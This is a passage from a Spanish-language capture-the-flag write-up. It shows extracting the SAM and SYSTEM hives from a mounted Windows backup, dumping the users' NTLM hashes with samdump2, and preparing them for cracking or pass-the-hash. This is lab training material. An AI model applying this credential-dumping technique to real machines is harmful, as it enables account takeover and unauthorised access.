 Perfecto, tenemos el contenido de la máquina virtual, ahora nos queda recorrer directorios importantes y ver con que podemos jugar...

...

## Explotación [#](#explotacion) {#explotacion}

Peeero antes de enloquecernos con tanto archivo, vamos a la fija, ya que es un *backup* de todo el sistema, debemos tener acceso a los archivos **SAM** y **SYSTEM**, ya que entre los dos tienen las passwords de los usuarios en formato hash [NTLM](https://www.ionos.es/digitalguide/servidores/know-how/ntlm/).

* [What is **Security Accounts Manager (SAM)**](https://www.top-password.com/blog/tag/windows-sam-registry-file/).
* [Registros en *Windows*](https://docs.microsoft.com/en-us/troubleshoot/windows-server/performance/windows-registry-advanced-users).

Por lo general están en la ruta `Windows/System32/config`:

```bash
❱ pwd
/mnt/vhd/Windows/System32/config
❱ ls -lh
total 73M
...
-rwxrwxrwx 1 root root 256K feb 22  2019 SAM
...
-rwxrwxrwx 1 root root 9,3M feb 22  2019 SYSTEM   
...
```

Y si (: 

Ahora, juntando los archivos con la herramienta [samdump2](http://www.reydes.com/d/?q=Recuperar_la_Contrasena_del_Administrador_utilizando_samdump2_y_John_The_Ripper) podemos obtener los hashes de cada usuario, posteriormente podemos intentar [PassTheHash](https://www.beyondtrust.com/resources/glossary/pass-the-hash-pth-attack) o crackearlos:

```bash
❱ samdump2 SYSTEM SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::   
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
```

Tres usuarios y dos de ellos dicen *disabled* (ni idea que significara en el contexto), tomemos la última parte de los hashes (que si nos fijamos, es la única parte que es dinámica) y guardémosla en un archivo:

```bash
❱ cat ntlm.hashes 
Administrator:31d6cfe0d16ae931b73c59d7e0c089c0   
Guest:31d6cfe0d16ae931b73c59d7e0c089c0
L4mpje:26112010952d963c8dc4217daec986d9
```
